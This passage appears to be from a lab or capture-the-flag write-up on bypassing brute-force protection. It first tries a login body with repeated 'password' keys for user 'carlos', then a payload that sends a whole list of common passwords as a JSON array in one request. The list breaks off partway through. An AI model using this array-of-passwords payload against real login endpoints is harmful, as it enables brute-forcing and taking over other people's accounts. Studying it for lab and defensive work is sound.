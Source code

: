 ```json
    "password":"montana",
    "password":"moon",
    "password":"moscow",
    "":""
}
```

But it doesn't work. Maybe it doesn't work because value of variable `password` is overwritten by value of variable `password` following. So login with json format above doesn't different with login with `{"username":"carlos","password":"moscow"}`.

Now, instead of login like that we modify `password` from multiple passwords in string type to an array containing those string passwords.

```json
{"username":"carlos",
"password":[
    "123456",
    "password",
    "12345678",
    "qwerty",`
    "123456789",
    "12345",
    "1234",
    "111111",
    "1234567",
    "dragon",
    "123123",
    "baseball",
    "abc123",
    "football",
    "monkey",
    "letmein",
    "shadow",
    "master",
    "666666",
    "qwertyuiop",
    "123321",
    "mustang",
    "1234567890",
    "michael",
    "654321",
    "superman",
    "1qaz2wsx",
    "7777777",
    "121212",
    "000000",
    "qazwsx",
    "123qwe",
    "killer",
    "trustno1",
    "jordan",
    "jennifer",
    "zxcvbnm",
    "asdfgh",
    "hunter",
    "buster",
    "soccer",
    "harley",
    "batman",
    "andrew",
    "tigger",
    "sunshine",
    "iloveyou",
```